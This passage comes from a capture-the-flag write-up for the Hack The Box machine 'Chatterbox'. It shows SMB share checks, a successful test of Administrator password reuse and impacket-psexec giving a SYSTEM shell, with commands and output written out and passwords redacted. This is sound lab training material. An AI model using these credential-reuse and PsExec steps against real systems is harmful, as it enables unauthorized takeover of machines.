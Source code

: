 Nice!

**Now, can user `Alfred` access those shares?**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|22:56:31(HKT)]
└> smbclient //127.0.0.1/C$ -U 'Alfred%{Redacted}'  
tree connect failed: NT_STATUS_ACCESS_DENIED
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|22:56:33(HKT)]
└> smbclient //127.0.0.1/ADMIN$ -U 'Alfred%{Redacted}'
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Nope. We can't...

Hmmm... How about password reuse?

**Maybe the `Administrator` user is using the same password as `Alfred`?**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|22:58:00(HKT)]
└> smbclient -L 127.0.0.1 -U 'Administrator%{Redacted}'

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 127.0.0.1 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```

Oh! It is!

**That being said, we should be able to access the `ADMIN$` share:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|22:58:49(HKT)]
└> smbclient //127.0.0.1/ADMIN$ -U 'Administrator%{Redacted}'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu May 18 03:31:49 2023
  ..                                  D        0  Thu May 18 03:31:49 2023
  $Reconfig$                          D        0  Tue Dec 19 19:56:45 2017
  addins                              D        0  Tue Jul 14 12:52:31 2009
[...]
```

Yep!

**Now, we can use PsExec to escalate our privilege via `impacket-psexec`!**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|23:03:18(HKT)]
└> impacket-psexec Administrator:'{Redacted}'@127.0.0.1 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 127.0.0.1.....
[*] Found writable share ADMIN$
[*] Uploading file HMpCOIHA.exe
[*] Opening SVCManager on 127.0.0.1.....
[*] Creating service fVUn on 127.0.0.1.....
[*] Starting service fVUn.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami && ipconfig
nt authority\system

Windows IP Configuration

```